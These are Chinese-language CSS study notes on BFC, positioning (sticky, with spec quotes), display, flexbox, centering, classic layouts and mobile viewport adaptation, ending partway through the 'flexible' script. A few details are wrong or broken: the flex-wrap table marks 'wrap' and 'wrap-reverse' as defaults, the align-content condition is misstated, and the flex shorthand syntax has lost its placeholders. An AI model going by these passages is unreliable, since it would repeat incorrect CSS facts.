- 计算 BFC 的高度时，浮动子元素也参与计算。
根据 css规范链接 In addition, if the element has any floating descendants whose bottom margin edge is below the element’s bottom content edge, then the height is increased to include those edges. Only floats that participate in this block formatting context are taken into account, e.g., floats inside absolutely positioned descendants or other floats are not.
另外，如果一个元素 A 拥有任何浮动的后代元素并且这些后代元素的 margin-bottom 的边缘在这个元素 A 的内容的下方的边缘之下，那么元素 A 的高度会包含这超出的边缘。但只有在这些浮动后代元素处于元素 A 的 BFC 的时候才会生效。
也就是说如果父元素生成了 BFC，那么其浮动子元素就会参与父元素的高度计算，父元素就可以包住它们了。
这就是 BFC 解决父级无法包住浮动子元素的原因。
position
定位元素
不设置 position 时，元素默认处于正常流中，和 position 的 static 值的效果一样，此时 top right bottom left z-index 等属性无效。
如果 position 设置了 static 以外的值，那么元素就变为定位元素，分为以下几种：
- 定位元素（positioned element）是其计算后位置属性为 relative, absolute, fixed 或 sticky 的一个元素（换句话说，除 static 以外的任何值）。
- 相对定位元素（relatively positioned element）是计算后位置属性为 relative 的元素。
- 绝对定位元素（absolutely positioned element）是计算后位置属性为 absolute 或 fixed 的元素。
- 粘性定位元素（stickily positioned element）是计算后位置属性为 sticky 的元素。
position 取值
| 值 | 描述 |
|---|---|
| static | 元素使用正常流 |
| relative | 相对定位。元素先放在正常流的位置，然后再相对于自己正常流的位置根据 top right bottom left 的值发生偏移，并为原来正常流的位置留下占位的空间，也就是说相对定位元素偏移后不会影响其他元素的位置，其他元素的所在位置就好像这个相对定位元素的位置没有发生改变一样 |
| absolute | 绝对定位。元素会脱离流（Out of Flow），不会为它原来正常流的位置留占位空间。相对于它的最近的非 static 定位祖先元素确定位置，偏移由 top right bottom left 的值来决定 |
| fixed | 固定定位。元素会脱离流（Out of Flow），不会为它原来正常流的位置留占位空间。相对于屏幕视口（viewport）的位置来指定元素位置，偏移由 top right bottom left 的值来决定。元素的位置在屏幕滚动时不会改变。 |
| sticky | 粘性定位。和 relative 一样会为元素原来正常流的位置留下占位空间，偏移后不会影响其他元素的位置。区别是，它的偏移不是相对于自己，而是相对于最近的拥有滚动机制（例如设置了 overflow 属性出现了滚动条）的滚动容器祖先的滚动视口。 |
inset 值同时设置的策略
inset 是 top right bottom left 的简写形式。
- 当 relative 定位时，不论是否设置了元素的 width，left/right 同时设置，如果父级 direction 是 ltr，则 left 生效；如果 rtl，则 right 生效。
- absolute 定位时，如果设置了元素的 width，left/right 同时设置，如果父级 direction 是 ltr，则 left 生效；如果 rtl，则 right 生效。如果没有设置元素 width ，left/right 同时设置都生效，元素的 width 会被扩展以适应。如果设置元素的 height，top/bottom 同时设置，top 生效 bottom 被忽略。如果没设置元素 height，top/bottom 同时设置都生效。
规范中对于 sticky 的讲解
规范文档 CSS Positioned Layout Module Level 3 的 3.4. Sticky positioning 章节的原文这样描述：
- Sticky positioning is similar to relative positioning except the offsets are automatically calculated in reference to the nearest scrollport.
sticky 定位类似于 relative 定位，除了它的偏移是参考最近的滚动视口进行自动计算出的结果。
- For a sticky positioned box, the inset properties represent insets from the respective edges of the nearest scrollport, defining the sticky view rectangle used to constrain the box’s position. (For this purpose an auto value represents a zero inset.) If this results in a sticky view rectangle size in any axis less than the size of the border box of the sticky box in that axis, then the effective end-edge inset in the affected axis is reduced (possibly becoming negative) to bring the sticky view rectangle’s size up to the size of the border box in that axis.
对于一个 sticky 定位的盒子，inset 属性（也就是 top right bottom left 的 另外一种速记写法，具体查看 MDN 讲解）代表了距离各自最近的滚动视口边缘的 insets 值，并定义了粘性视图矩形（sticky view rectangle）用来限制盒子的位置。（基于这个目的，如果值是 auto ，那就代表 inset 值为 0）如果任意一个坐标轴的粘性视图矩形的大小在此坐标轴中比 sticky 盒子的 border box 要小，那么在这个被影响的坐标轴中生效的 end-edge inset 就会被减少（可能变成负值），这是为了让粘性视图矩形的大小能够包含 border box 的大小。
- For example, if the nearest scrollport is 300px tall, the sticky box’s border box is 200px tall, and it has top: 20px, then the top-edge inset of the nearest scrollport is 20px, and the bottom-edge inset is 0px, yielding a sticky view rectangle that is 280px tall. But if the nearest scrollport were only 100px tall, then the effective bottom-edge inset becomes -120px, resulting in a sticky view rectangle that’s 200px tall, enough to fully contain the margin box of the sticky box.
一个例子，如果最近的滚动视口是 300px 高，sticky 盒子的 border box 是 200px 高，它设置了 top:20px，那么最近的滚动视口的 top-edge inset 就是 20px，那么 bottom-edge inset 就是 0，这样产生的粘性视图矩形就是 280px 高。
但是如果最近的滚动视口只有 100px 高，然后能够生效的 bottom-edge inset 就变成 -120px，这样粘性视图矩形就是 200px 高，足以包含 sticky 盒子的 margin 盒子。
- For each side of the box, if the corresponding inset property is not auto, and the corresponding border edge of the box would be outside the corresponding edge of the sticky view rectangle, then the box must be visually shifted (as for relative positioning) to be inward of that sticky view rectangle edge, insofar as it can while its position box remains contained within its containing block. The position box is its margin box, except that for any side for which the distance between its margin edge and the corresponding edge of its containing block is less than its corresponding margin, that distance is used in place of that margin.
对于盒子的每一边，如果相应的 inset 属性值不是 auto，并且盒子的相应的 border 边缘会在相应的粘性视图矩形的边缘之外，那么盒子必须在视觉上被移动（例如绝对定位）为了在粘性视图矩形边缘的内部，只要它的 position box 保持被包含在它的包含块中就可以。position box 就是它的 margin box，不同的是对于任意一边，它的 margin edge 和对应的它的包含块的边缘的距离比它对应的 margin 要小，那个距离被用来替代这个 margin。
- Note: A sticky positioned element with a non-auto top value and an auto bottom value will only ever be pushed down by sticky positioning; it will never be offset upwards.
如果 top 不是 auto ，但 bottom 是 auto，那么 position:sticky 元素只会向下偏移(相对其初始位置)，永远不会向上偏移 。
- Note: Multiple sticky positioned boxes in the same container are offset independently, and therefore might overlap.
同一个容器中的多个粘性定位盒子是独立偏移的，因此可能会重叠。
- 3.4.1. Scroll Position of Sticky-Positioned Boxes For the purposes of any operation targetting the scroll position of a sticky positioned element (or one of its descendants), the sticky positioned element must be considered to be positioned at its initial (non-offsetted) position.
对于以粘性定位元素（或其后代之一）的滚动位置为目标的任何操作，粘性定位元素必须被视为位于其初始（非偏移）位置。
对 sticky 的理解
粘性定位的元素是依赖于用户的滚动，在 position:relative 与 position:fixed 定位之间切换。它的行为就像 position:relative; 而当页面滚动超出目标区域时，它的表现就像 position:fixed;，它会固定在目标位置。元素定位表现为在跨越特定阈值前为相对定位，之后为固定定位。这个特定阈值指的是 top, right, bottom 或 left 之一，换言之，指定 top, right, bottom 或 left 四个阈值其中之一，才可使粘性定位生效。否则其行为与相对定位相同。
如何查找最近的滚动祖先
一般而言只要往父级查找，遇到的第一个 overflow 不是 visible 的元素就是最近滚动祖先(scrollport)。找不到时，viewport 就是最近滚动祖先。
css-overflow-3 的 3.5. Overflow Viewport Propagation 中有这样一句：If visible is applied to the viewport, it must be interpreted as auto.
如果 overflow:visible 被应用于 viewport，那么要被解释为 overflow:auto。所以 viewport 始终是可以滚动的，它会作为最终的滚动祖先。
display
概念
display 指定了盒子的两个类型：
- 外部显示类型(outer display type) 定义了元素本身如何参与流式布局的处理
- 内部显示类型(inner display type) 定义了元素内子元素的布局方式。
display: [ <display-outside> || <display-inside> ] | <display-listitem> | <display-internal> | <display-box> | <display-legacy>
// 下面是不同参数的取值
<display-outside> = block | inline | run-in
<display-inside> = flow | flow-root | table | flex | grid | ruby
<display-listitem> = <display-outside>? && [ flow | flow-root ]? && list-item
<display-internal> = table-row-group | table-header-group |
table-footer-group | table-row | table-cell |
table-column-group | table-column | table-caption |
ruby-base | ruby-text | ruby-base-container |
ruby-text-container
<display-box> = contents | none
<display-legacy> = inline-block | inline-table | inline-flex | inline-grid
以下是不同值的说明表
| 简短写法 | 完整写法 | 生成的盒子 |
|---|---|---|
| none | 从盒子树（box tree）中删除子树 | |
| contents | 元素被盒子树（box tree）中内容取代 | |
| block | block flow | 块级块容器，也叫块盒子 |
| flow-root | block flow-root | 块级块容器创建一个新的 BFC |
| inline | inline flow | 行内盒子 |
| inline-block | inline flow-root | 行内级别块容器，也叫行内块 |
| list-item | block flow list-item | 带有附加标记盒的块盒 |
| inline list-item | inline flow list-item | 带有附加标记盒的行内盒 |
| flex | block flex | 块级别 flex 容器 |
| inline-flex | inline flex | 行内级别 flex 容器 |
| grid | block grid | 块级别 grid 容器 |
| inline-grid | inline grid | 行内级别 grid 容器 |
| table | block table | 块级表格包装盒包含了表格网格盒 |
| inline-table | inline table | 行内级表格包装盒包含了表格网格盒 |
display-outside 的取值
- block 当在流布局中，生成一个块级盒子
- inline 当在流布局中，生成一个内联级盒子
display-inside 的取值
- flow
- 元素内容使用流布局。
- 如果其 outer display 类型是 inline 或 run-in，且其正在参与块或内联格式化上下文，则它会生成 inline box；否则会生成一个块容器盒。
- 根据其他属性的值（比如 position，float 或 overflow）以及它本身是否参与块或内联格式化上下文，它要么为其内容建立新的块格式化上下文，要么将其内容集成到其父格式化上下文
- flow-root
- 该元素生成一个块容器盒，并使用流布局布置其内容。它总是为其内容建立一个新的块格式化上下文
- table
- 该元素生成一个主要的表格包装盒，它建立了一个块格式化上下文，它包含一个额外生成的表格网格盒，它建立了一个表格格式化上下文
- flex
- 该元素生成一个主 flex 容器盒并建立一个 flex 格式化上下文。
- grid
- 该元素生成一个主 grid 容器盒，并建立一个 grid 格式化上下文。
flex
基础概念
- flex-flow 属性（flex-direction 和 flex-wrap 的简写模式）和书写模式（writing mode）会决定这些条件如何编排组织 物理方向（top/right/bottom/left），坐标轴（vertical/horizontal），大小（width/height）。
- main axis（主轴）：flex 容器中 flex 项目排列的主要坐标轴。书写模式默认情况下（horizontal-tb），主轴为从左到右，水平方向。
- main-start main-end：flex 项目在 flex 容器中从 main-start 开始朝 main-end 的方向排列。
- cross axis（侧轴）：与主轴垂直的轴。书写模式默认情况下（horizontal-tb），侧轴为从上到下，垂直方向。
- cross-start cross-end：flex 行（Flex lines）将项目放置入容器的方向是从 cross-start 开始朝 cross-end 方向排列。
- block axis（块轴）：是沿 块(block) （比如段落元素）的布局方向延伸的轴， 它会垂直穿过行内轴
- inline axis（内联轴）：是在使用特定写作模式中，沿句子单词的流动方向的轴。比如对于英语或者中文来说， 内联轴是水平的
- 块轴（Block Axis）又常称为列（Column）, 内联轴（Inline Axis）又常称为行（Row）
- 行内轴（Inline Axis）也对标 Flexbox 中的主轴 Main Axis
- 块轴（Block Axis）也对标 Flexbox 中的侧轴 Cross Axis
flex 容器和 flex 项目
- 在元素上使用 display 设置值为 flex 或 inline-flex ，该容器会成为 flex 容器，该容器下的子元素，包括 文本节点，伪元素会是 flex 项目。
- 设置为 display: flex 时，flex 容器未显式设置与宽度相关的属性时，其宽度与其父容器等同（相当于 width: 100% ）
- 设置为 display: inline-flex 时，flex 容器未显式设置与宽度相关的属性时，其宽度等同于所有 flex 项目的宽度和
- 当 flex 容器中所有 flex 项目所有宽和大于 flex 容器时：
- 设置为 display: flex 时，flex 项目会溢出 flex 容器
- 设置为 display: inline-flex 时，flex 项目会撑大 flex 容器，有可能造成 flex 容器溢出其父元素（或祖先元素）
flex 容器的属性
注意：以下的属性讲解都以默认书写模式为准，也就是没有修改 writing-mode direction text-orientation 以及 html 属性 dir 时的主轴和侧轴方向。
flex-flow（flex-direction flex-wrap）
- flex-flow 属性是 flex-direction 和 flex-wrap 的简写。
- flex-flow 只显式设置一个值，并且该值和 flex-direction 相匹配时， flex-wrap 会取值 initial
- flex-flow 只显式设置一个值，并且该值和 flex-wrap 相匹配时， flex-direction 会取值 initial
- flex-flow 显式设置两个值时， flex-direction 和 flow-wrap 没有先后顺序之分，即可 flex-flow: column wrap 和 flex-flow: wrap column 等同
flex-direction
flex-direction 用于设置主轴方向。
| 值 | 含义 |
|---|---|
| row | 默认值。从左至右，水平方向。 |
| row-reverse | 和 row 相反。从右至左，水平方向。 |
| column | 从上至下，垂直方向。 |
| column-reverse | 和 column 相反。从下至上，垂直方向。 |
flex-wrap
flex-wrap 指定 flex 项目在 flex 容器换行的方式 。所有 flex 项目宽度总和大于 flex 容器主轴尺寸时，设置 flex-wrap 属性才能生效。
| 值 | 含义 |
|---|---|
| nowrap | 默认值。 不换行，可能会溢出。 |
| wrap | 默认值。 换行。 |
| wrap-reverse | 默认值。 换行。cross-start 和 cross-end 互换 |
justify-content 主轴方向对齐方式

在 flex 容器中使用 justify-content 来控制 flex 项目在 Flex 容器主轴方向的对齐方式，也可以用来分配 flex 容器中主轴方向的剩余空间。使用 justify-content 分配 flex 容器剩余空间，主要是将剩余空间按不同的对齐方式，将剩余空间分配给 flex 项目的两侧，即控制 flex 项目与 flex 项目之间的间距。
| 值 | 含义 |
|---|---|
| flex-start | flex 项目从 main-start 开始排列 |
| flex-end | flex 项目从 main-end 开始排列 |
| center | flex 项目向主轴中心排列，第一个 flex 项目与 main-start 的距离和最后一个 flex 项目与 main-end 的距离相等 |
| space-between | 会让第一个 flex 项目的盒子起始边缘与 flex 容器主轴起点相稳合，最后一个 flex 项目的盒子结束边缘与 flex 容器主轴终点相稳合，其它相邻 flex 项目之间间距相等。当 flex 容器中只有一个 flex 项目时，其表现行为和 flex-start 等同 |
| space-around | 会让第一个 flex 项目的盒子起始边缘与 flex 容器主轴起点间距和最后一个 flex 项目的盒子结束边缘与 flex 容器主轴终点间距相等，并且等于其他相邻两个 flex 项目之间间距的一半。当 flex 容器中只有一个 flex 项目时，其表现行为和 center 等同 |
| space-evenly | 会让第一个 flex 项目的盒子起始边缘与 flex 容器主轴起点间距和最后一个 flex 项目的盒子结束边缘与 flex 容器主轴终点间距相等，并且等于其他相邻两个 flex 项目之间间距。当 flex 容器中只有一个 flex 项目时，其表现行为和 center 等同 |
- 如果 flex 容器没有额外的剩余空间，或者说剩余空间为负值时， justify-content 的值表现形式：
- flex-start 会让 flex 项目在 Flex 容器主轴结束点处溢出
- flex-end 会让 flex 项目在 flex 容器主轴起点处溢出
- center 会让 flex 项目在 flex 容器两端溢出
- space-between 和 flex-start 相同
- space-around 和 center 相同
- space-evenly 和 center 相同
align-items 侧轴方向对齐方式

align-items 控制 flex 项目在侧轴方向的对齐方式。
| 值 | 含义 |
|---|---|
| stretch | flex 项目未显式设置 height (或 width )的时候，flex 项目在侧轴方向被拉伸到与容器相同的高度或宽度 |
| flex-start | flex 项目向 cross-start 对齐 |
| flex-end | flex 项目向 cross-end 对齐 |
| center | flex 项目在侧轴上居中 |
| baseline | flex 项目在侧轴与基线对齐 |
- 如果 flex 容器没有剩余空间或剩余空间为负值是：
- flex-start 会让 flex 项目在 flex 容器侧轴终点处溢出
- flex-end 会让 flex 项目在 flex 容器侧轴起点处溢出
- center 会让 flex 项目在 flex 容器侧轴两侧溢出
- baseline 会让 flex 项目在 flex 容器侧轴终点溢出，有点类似于 flex-start
align-content 多行（列）对齐方式

align-content 只适用于 flex 容器在没有足够空间（所有 flex 项目宽度之和大于 flex 容器主轴尺寸），并且显式设置 flex-wrap 的值为非 wrap 时。
align-content 表现行为有点类似于 justify-cotent 控制 flex 项目在主轴方向的对齐方式（分配 flex 容器主轴剩余空间），而 align-content 可以用来控制多行状态下，行在 flex 容器侧轴的对齐方式（分配 flex 容器侧轴剩余空间）。可以把 align-content 状态下侧轴中的整行当作是 justify-content 状态下单个 flex 项目。
| 值 | 含义 |
|---|---|
| flex-start | 所有行从 cross-start 开始填充。 |
| flex-end | 所有行从 cross-end 开始填充。 |
| center | 所有行在侧轴居中填充。 |
| stretch | 拉伸所有行来填满剩余空间。 |
| space-between | 第一行与 cross-start 紧贴，最后一行与 cross-end 紧贴，其他行之间距离相等。当 flex 容器中只有一行时，其表现行为和 flex-start 等同 |
| space-around | 第一行与 cross-start 和 最后一行与 cross-end 的距离相等，是其他行之间距离的一半。当 flex 容器中只有一行时，其表现行为和 center 等同 |
| space-evenly | 每一行之间距离相等。当 flex 容器中只有一行时，其表现行为和 center 等同 |
- 当 flex 容器中所有行的尺寸之和大于 flex 容器侧轴尺寸（flex 容器侧轴没有可用空间或可用空间为负值）时，各值表现行为：
- flex-start 会让 flex 容器的行在侧轴结束点溢出
- flex-end 会让 flex 容器的行在侧轴起点溢出
- center 会让 flex 容器行在侧轴两端溢出
- stretch 表现行为类似于 flex-start
- space-around 表现行为类似于 center
- space-between 表现行为类似于 flex-start
- space-evenly 表现行为类似于 center
flex 项目的属性
align-self

| 值 | 含义 |
|---|---|
| auto | 设置为 flex 容器的 align-items 值 |
| flex-start | 对齐至 cross-start |
| flex-end | 对齐至 cross-end |
| center | 对齐至侧轴中心 |
| baseline | 在侧轴与基线对齐 |
| stretch | 拉伸来填满剩余空间。 |
flex
flex 属性使 flex 项目根据 flex 容器的可用空间对自身做伸缩计算，其包含三个子属性： flex-basis 、 flex-shrink 和 flex-grow 。
-
即 flex 的三个子属性： flex-grow （扩展比率）、 flex-shrink （收缩比率）和 flex-basis （伸缩基准）。这三个属性可以控制Flex项目，具体的表现如下：
- flex-grow ：设置 flex 项目的扩展比率，让 flex 项目得到（扩展）多少 flex 容器剩余空间（Positive Free Space），即 flex 项目可能会变大
- flex-shrink ：设置 flex 项目收缩比率，让 flex 项目减去 flex 容器不足的空间（Negative Free Space），即 flex 项目可能会变小
- flex-basis ：flex 项目未扩展或收缩之前，它的大小，即指定了 flex 项目在主轴方向的初始大小
-
flex 属性可以指定 1个值（单值语法） 、 2个值（双值语法） 或 3个值（三值语法） 。
- 单值语法：值必须为以下其中之一：
- 一个无单位的数（
），比如 flex: 1 ，这个时候它会被当作 的值 - 一个有效的宽度（ width ）值，比如 flex: 30vw ，这个时候它会被当作
的值 - 关键词 none 、 auto 或 initial （即初始值）
- 一个无单位的数（
- 双值语法：第一个值必须为一个无单位数值，并且它会被当作
的值；第二个值必须为以下之一： - 一个无单位的数（
），它会被当作 的值 - 一个有效的宽度（ width ）值，它会被当作
的值
- 一个无单位的数（
- 三值语法：
- 第一个值必须是一个无单位数（
），并且它会被当作 的值 - 第二个值必须是一个无单位数（
），并且它会被当作 的值 - 第三个值必须为一个有效的宽度（ width ）值，并且它会被当作
的值
- 第一个值必须是一个无单位数（
- 单值语法：值必须为以下其中之一：
| 值 | 含义 |
|---|---|
| auto | flex 项目会根据自身的 width 和 height 来确定尺寸，但 flex 项目根据 flex 容器剩余空间进行伸缩。其相当于 flex: 1 1 auto |
| initial | flex 项目会根据自身的 width 和 height 来设置尺寸。它会缩短自身以适应 flex 容器，但不会伸长并吸收 flex 容器中的额外剩余空间来适应 flex 容器。其相当于 flex: 0 1 auto |
| none | flex 项目会根据自身的 width 和 height 来设置尺寸。它是完全非弹性的（既不会缩短，也不会伸长来适应 flex 容器）。其相当于 flex: 0 0 auto |
flex-grow
flex-grow 计算公式：

flex-shrink
flex-shrink 计算公式

flex-basis
如果 flex 项目未显式指定 flex-basis 的值，那么 flex-basis 将回退到 width （或 inline-size ）属性；如果未显式指定 width （或 inline-size ）属性的值，那么 flex-basis 将回退到基于 flex 项目内容计算宽度。不过，决定 flex 项目尺寸大小，还受 flex-grow 和 flex-shrink 以及 flex 容器大小的影响。而且 flex 项目 最终尺寸 会受 min-width、 max-width(或 min-inline-size 、 max-inline-size )属性限制。
题目
第一题
用 flex 实现 flex 项目是对角线的布局
答案
<style>
div {
box-sizing: border-box;
}
.box {
width: 400px;
height: 400px;
display: flex;
justify-content: space-evenly;
}
.inner-box {
padding: 30px;
}
.inner-box-1 {
align-self: flex-start;
background-color: blueviolet;
}
.inner-box-2 {
align-self: center;
background-color: dodgerblue;
}
.inner-box-3 {
align-self: flex-end;
background-color: forestgreen;
}
</style>
<div class="box">
<div class="inner-box inner-box-1"></div>
<div class="inner-box inner-box-2"></div>
<div class="inner-box inner-box-3"></div>
</div>
第二题
用 flex 实现。flex 项目一共有 4 个，1 和 3 在侧轴上方，2 和 4 才侧轴下方。
答案
<style>
div {
box-sizing: border-box;
}
.box {
width: 400px;
height: 130px;
display: flex;
justify-content: space-evenly;
}
.inner-box {
padding: 30px;
}
.inner-box-1 {
align-self: flex-start;
background-color: blueviolet;
}
.inner-box-2 {
align-self: flex-end;
background-color: dodgerblue;
}
.inner-box-3 {
align-self: flex-start;
background-color: forestgreen;
}
.inner-box-4 {
align-self: flex-end;
background-color: lightsalmon;
}
</style>
<div class="box">
<div class="inner-box inner-box-1"></div>
<div class="inner-box inner-box-2"></div>
<div class="inner-box inner-box-3"></div>
<div class="inner-box inner-box-4"></div>
</div>
居中问题
宽高已知
- absolute + margin auto
父元素与当前元素的高度要设置。通过将各个方向的距离都设置为 0，此时将 margin 设置为 auto，就可以实现垂直居中显示了；
- absolute + 负 margin
利用绝对定位百分比 50% 来实现，因为当前元素的百分比是基于相对定位（也就是父元素）来定位的;
然后再用负的 margin-top 和 margin-left 来进行简单的位移即可，因为现在的负 margin 是基于自身的高度和宽度来进行位移的。
- absolute + calc
使用 CSS3 的一个计算函数来进行计算即可；方法与上面类似
宽高未知
- absolute + transform
利用 CSS3 的新特性 transform；因为 transform 的 translate 属性值如果是一个百分比，那么这个百分比将是基于自身的宽高计算出来的。
- line-height + vertical-align
把当前元素设置为 inline-block，然后通过设置父元素的 text-align: center; 实现水平居中；同时通过设置当前元素的 vertical-align: middle; 来实现垂直居中；
最后设置当前元素的 line-height: initial; 来继承父元素的 line-height。
- table 表格元素
通过最经典的 table 元素来进行水平垂直居中，不过代码看起来会很冗余，不推荐使用；
- css-table 表格样式
如果一定要使用 table 的特性，但是不想写 table 元素的话，那么css-table 就很适合你；
- flex
在 flex 容器设置 justify-content 和 align-items
-
flex + margin auto
-
grid 网格布局 (一)
-
grid 网格布局 (二)
常见布局
两栏布局
- float + overflow：左边 div 固定宽度，然后 float:left，右边 div overflow:hidden

- float + margin：左边 div 固定宽度，然后 float:left，右边 div 设置 margin-left 值和左边 div 宽度一样

- flex: 父级容器 display:flex，左边 div 固定宽度，右边 div flex:1

- grid：父级容器 display:grid 和 grid-template-columns: 200px auto; 200px 是左边 div 的宽度，左边 div 固定宽度

三栏布局（两侧栏定宽主栏自适应）
- 圣杯布局

- 双飞翼布局

- float + overflow（BFC 原理）

- flex

- grid

多列等高布局
- padding + 负 margin

- 设置父级背景图片

三行布局（头尾定高主栏自适应）
- calc

- absolute

- flex

- grid

移动端适配
基础知识
-
英寸。我们一般用英寸（inch）这个物理单位来描述屏幕的物理大小，这个尺寸指的是屏幕对角线的长度。英寸和厘米的换算单位是：1英寸 = 2.54厘米。
-
分辨率通常分为显示分辨率和图片分辨率。
- 显示分辨率（屏幕分辨率）是指显示器所能显示的像素有多少
- 图片分辨率则是单位英寸内所包含的像素点数。
- ppi（像素每英寸）和 dpi（点每英寸）是我们最常用的用来描述分辨率的两种单位；从技术角度说，“像素”只存在于电脑显示领域，而“点”只出现于打印或印刷领域。
-
像素，是一个拥有位置和颜色属性的小方块。电脑屏幕就是由像素组成的。
- 物理像素。物理像素等同于设备像素（dp:device pixel），顾名思义，显示屏是由一个个物理像素点组成的，通过控制每个像素点的颜色使屏幕显示出不同的图像，屏幕上面的物理像素点是固定不变的，单位pt。其中，我们通常说的显示器分辨率，其实是指操作系统设定的分辨率，而不是显示器的物理分辨率。
- 设备独立像素（dip）。iPhone3，它的分辨率是 320x480，iPhone4 的分辨率是 640*960，正好是 iPhone3 的两倍。然而 iPhone4 和 iPhone3 的尺寸是一样的，都是3.5英寸。在 iPhone4 使用的视网膜屏幕中，把 2x2 个像素当 1 个像素使用，这样让屏幕看起来更精致，但是元素的大小却不会改变。我们必须用一种单位来同时告诉不同分辨率的手机，它们在界面上显示元素的大小是多少，这个单位就是设备独立像素(Device Independent Pixels)简称 DIP 或DP。如果列表的宽度为 300 个像素，实际上我们可以说：列表的宽度为 300 个设备独立像素。打开 chrome 的开发者工具，我们可以模拟各个手机型号的显示情况，每种型号上面会显示一个尺寸，比如 iPhone X显示的尺寸是 375x812，实际 iPhone X的分辨率会比这高很多，这里显示的就是设备独立像素 DIP。
- 设备像素比（dpr）。设备像素比 device pixel ratio 简称 dpr，即物理像素和设备独立像素的比值。浏览器为我们提供了window.devicePixelRatio 来帮助我们获取 dpr。 在 css 中，可以使用媒体查询 min-device-pixel-ratio，区分 dpr：
@media (-webkit-min-device-pixel-ratio: 2),(min-device-pixel-ratio: 2){ }- css 像素（px）。在 CSS 规范中，长度单位可以分为两类，绝对(absolute)单位以及相对(relative)单位。px 是一个相对单位，相对的是设备像素(device pixel)。我们可以得到一个公式：dpr = dp / dips。物理像素 和 设备独立像素 的比值就是 设备像素比。
- 其中设备独立像素这样计算 dips = css像素 / scale（缩放比例）
- 所以，那么在没有缩放的情况下，1 个 css 像素等同于一个设备独立像素。
-
视口（Viewport）。用户网页的可视范围（指页面能够被浏览的范围）
- 如果把移动设备上浏览器的可视区域设为 viewport 的话，某些网站就会因为 viewport 太窄而显示错乱，所以这些浏览器就决定默认情况下把viewport 设为一个较宽的值，比如 980px，这样的话即使是那些为桌面设计的网站也能在移动浏览器上正常显示了。ppk 把这个浏览器默认的 viewport 叫做 layout viewport(布局视口)。layout viewport 的宽度可以通过 document.documentElement.clientWidth 来获取。
- layout viewport 的宽度是大于浏览器可视区域的宽度的，所以我们还需要一个 viewport 来代表浏览器可视区域的大小，ppk 把这个 viewport 叫做 visual viewport(视觉视口)。visual viewport 的宽度可以通过 window.innerWidth 来获取。
- 浏览器觉得还不够，因为现在 网站都会为移动设备进行单独的设计，所以必须还要有一个能完美适配移动设备的 viewport。ppk 把这个 viewport 叫做 ideal viewport(理想视口)。ideal viewport 可通过 window.screen.width 获取。ideal viewport 并没有一个固定的尺寸，不同的设备拥有有不同的 ideal viewport。
- 只要在 css 中把某一元素的宽度设为 ideal viewport的宽度(单位用px)，那么这个元素的宽度就是设备屏幕的宽度了，也就是宽度为 100% 的效果。ideal viewport 的意义在于，无论在何种分辨率的屏幕下，那些针对 ideal viewport 而设计的网站，不需要用户手动缩放，也不需要出现横向滚动条，都可以完美的呈现给用户。
-
meta 元素可以通过设置其 name 为 viewport，然后对其 content 设置不同的指令，从而可以达到控制 viewport 的目的。
<meta name="viewport" content="name=value,name=value">-
width，设置 layout viewport 的宽度，为一个正整数，或关键词 device-width
-
initial-scale，设置页面的初始缩放值，为一个大于 0 的小数
-
minimum-scale，允许用户的最小缩放值，为一个大于 0 的小数
-
maximum-scale，允许用户的最大缩放值，为一个大于 0 的小数
-
height，设置 layout viewport 的高度，有这个属性，但是好像并没有人支持
-
user-scalable，是否允许用户进行缩放，值为 yes 或 no
-
layout viewport 可以设置成为 ideal viewport，通过设置 width=device-width 这组指令就可以了（但要注意的是，在 iphone 和 ipad 上，无论是竖屏还是横屏，device-width 都是竖屏时 ideal viewport的宽度。）。initial-scale=1 同样也可以把当前的 layout viewport 变为 ideal viewport。因为 initial-scale=1 缩放是相对于 ideal viewport 来进行缩放的，当对 ideal viewport 进行 100% 的缩放，也就是缩放值为 1 的时候，不就得到了 ideal viewport。
-
但如果 width 和 initial-scale=1 同时出现，并且还出现了冲突呢？比如
<meta name="viewport" content="width=400, initial-scale=1">。layout viewport 的宽度值会取 width 指定的宽度值和 ideal viewport 宽度值经过(initial-scale指定的值的倍数)缩放后的宽度值的最大值。例如，当width=400， initial-scale=0.5 时，此时 layout viewport 会取 640px（因为 320 / 0.5 > 400、320 / 0.5 = 640）作为它的宽度值。 -
visual viewport宽度 = ideal viewport宽度 / 当前缩放值
-
当前缩放值 = ideal viewport宽度 / visual viewport宽度
-
安卓设备上 initial-scale 没有默认值。而在 iphone 和 ipad 上，无论你给 viewport 设的宽的是多少，如果没有指定默认的缩放值，则 iphone 和 ipad 会自动计算这个缩放值，以达到当前页面不会出现横向滚动条(或者说viewport的宽度就是屏幕的宽度)的目的。
-
视口总结。
- 首先如果不设置 meta viewport 标签，那么移动设备上浏览器默认的宽度值为 800px，980px，1024px 等这些，总之是大于屏幕宽度的。这里的宽度所用的单位 px 都是指 css 中的 px，它跟代表实际屏幕物理像素的 px 不是一回事。
- 每个移动设备浏览器中都有一个理想的宽度，这个理想的宽度是指 css 中的宽度，跟设备的物理宽度没有关系，在 css 中，这个宽度就相当于100% 所代表的那个宽度。我们可以用 meta 标签把 viewport 的宽度设为那个理想的宽度，如果不知道这个设备的理想宽度是多少，那么用device-width 这个特殊值就行了，同时 initial-scale=1 也有把 viewport 的宽度设为理想宽度的作用。所以，我们可以使用
<meta name="viewport" content="width=device-width, initial-scale=1">来得到一个理想的 viewport（也就是前面说的ideal viewport）。
-
-
自己总结
<meta name="viewport" content="width=device-width, initial-scale=1">
meta 标签设置 viewport 宽度等于设备宽度，这个设置是很重要的。如果不设置，页面将使用布局视口（layout viewport），默认宽度 980 px，那么页面中的元素将变得非常小，看不清楚。设置了 width=device-width 后，页面会将布局视口（layout viewport）的默认文档宽度设置为理想视口（ideal viewport）的宽度，即使用设备独立像素的页面宽度进行布局。
而 visual viewport宽度 = ideal viewport宽度 / 当前缩放值。如果在 viewport 的设置中同时出现了 width=device-width 和initial-scale=xx ，则 layout viewport 会在 device-width 和 visual viewport 的宽度值中取一个最大值作为其宽度值。
例子：如果手机是高清屏幕，其实际物理像素为 750x1134 ，dpr 为 2，则 css 像素为 375x667。设置 width=device-width 后，视口宽度将为 375，再设置 initial-scale=0.5 后，通过计算 visual viewport 宽度等于 375 / 0.5 = 750。则最终视口宽度为 750。实现了物理像素和 css 像素 1:1。
适配方案
flexible
完整 flexible 代码
;(function(win, lib) {
var doc = win.document;
var docEl = doc.documentElement;
var metaEl = doc.querySelector('meta[name="viewport"]');
var flexibleEl = doc.querySelector('meta[name="flexible"]');
var dpr = 0;
var scale = 0;
var tid;
var flexible = lib.flexible || (lib.flexible = {});
if (metaEl) {
console.warn('将根据已有的meta标签来设置缩放比例');
var match = metaEl.getAttribute('content').match(/initial\-scale=([\d\.]+)/);
if (match) {
scale = parseFloat(match[1]);
dpr = parseInt(1 / scale);
}
